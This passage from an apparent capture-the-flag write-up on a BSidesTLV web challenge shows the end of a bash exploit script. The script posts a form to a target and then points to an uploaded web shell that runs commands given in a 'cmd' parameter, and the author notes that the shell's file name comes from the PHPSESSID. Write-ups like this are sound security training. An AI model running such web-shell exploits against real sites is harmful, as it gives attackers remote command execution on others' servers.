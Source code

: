 ```bash
              --data-urlencode "yourmessage=blah blah blah" \
              --data-urlencode "captcha=$CAPTCHA" \
              --data-urlencode "actions=SUBMIT" \
              $TARGETURL)

if [ $STATUS -eq 200 ]; then
  echo "[+] Check $CHALLENGE/cache/$FILENAME?cmd=[shell command, e.g. id]"
else
  echo "[!] Exploit failed"
fi

# Clean up
rm -f cookie
```

The first version of the exploit didn't work. But, the creators of this challenge were kind enough to leave a hint on how to proceed.

![5f9bc59b.png](/assets/images/posts/bsidestlv-web/5f9bc59b.png)

The challenge now becomes an exercise in determining the file name. :triumph:

![f460f6df.png](/assets/images/posts/bsidestlv-web/f460f6df.png)

The file name is from the PHPSESSID! Armed with this knowledge, let's run the exploit.

![fcaa33c2.png](/assets/images/posts/bsidestlv-web/fcaa33c2.png)
